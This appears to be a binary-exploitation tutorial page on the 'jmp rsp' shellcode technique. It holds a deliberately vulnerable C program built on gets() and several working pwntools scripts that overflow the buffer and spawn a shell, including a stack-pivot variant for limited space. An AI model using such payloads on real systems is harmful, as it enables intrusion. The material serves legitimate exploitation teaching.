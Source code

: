 # Using RSP

## Source

{% file src="../../../.gitbook/assets/rsp\_shellcode.zip" caption="Shellcode with RSP" %}

```c
#include <stdio.h>

int test = 0;

int main() {
    char input[100];

    puts("Get me with shellcode and RSP!");
    gets(input);

    if(test) {
        asm("jmp *%rsp");
        return 0;
    }
    else {
        return 0;
    }
}
```

You can ignore most of it as it's mostly there to accomodate the existence of `jmp rsp` - we don't actually want it called, so there's a negative `if` statement.

{% hint style="info" %}
The chance of `jmp esp` gadgets existing in the binary are incredible low, but what you often do instead is find a _sequence of bytes that code for jmp rsp_ and jump there - `jmp rsp` is `\xff\xe4` in shellcode, so if there's is any part of the executable section with bytes in this order, they can be used as if they are a `jmp rsp`.
{% endhint %}

## Exploitation

Try to do this yourself first, using the explanation on the previous page. Remember, RSP points at the thing _after_ the return pointer once `ret` has occured, so your shellcode goes _after_ it.

### Solution

```python
from pwn import *

elf = context.binary = ELF('./vuln')
p = process()

# we use elf.search() because we don't need those instructions directly,
# just anu sequence of \xff\xe4
jmp_rsp = next(elf.search(asm('jmp rsp')))

payload = flat(
    'A' * 120,                # padding
    jmp_rsp,                 # RSP will be pointing to shellcode, so we jump there
    asm(shellcraft.sh())     # place the shellcode
)

p.sendlineafter('RSP!\n', payload)
p.interactive()
```

## Limited Space

You won't always have enough overflow - perhaps you'll only have 7 or 8 bytes. What you can do in this scenario is make the shellcode after the RIP equivalent to something like

```text
sub rsp, 0x20
jmp rsp
```

Where `0x20` is the offset between the current value of RSP and the start of the buffer. In the buffer itself, we put the main shellcode. Let's try that!

```python
from pwn import *

elf = context.binary = ELF('./vuln')
p = process()

jmp_rsp = next(elf.search(asm('jmp rsp')))

payload = b'A' * 120
payload += p64(jmp_rsp)
payload += asm('''
    sub rsp, 10;
    jmp rsp;
''')

pause()
p.sendlineafter('RSP!\n', payload)
p.interactive()
```

The `10` is just a placeholder. Once we hit the `pause()`, we attach with radare2 and set a breakpoint on the `ret`, then continue. Once we hit it, we find the beginning of the `A` string and work out the offset - it's 128.

### Solution

```python
from pwn import *

elf = context.binary = ELF('./vuln')
p = process()

jmp_rsp = next(elf.search(asm('jmp rsp')))

payload = asm(shellcraft.sh())
payload = payload.ljust(120, b'A')
payload += p64(jmp_rsp)
payload += asm('''
    sub rsp, 128;
    jmp rsp;
''')        # 128 we found with r2

pause()
p.sendlineafter('RSP!\n', payload)
p.interactive()
```

We successfully pivoted back to our shellcode - and because all our addresses are relative, it's completely reliable! ASLR beaten with pure shellcode.

{% hint style="warning" %}
This is harder with PIE as the location of `jmp rsp` will change, so you might have to leak PIE base!
{% endhint %}

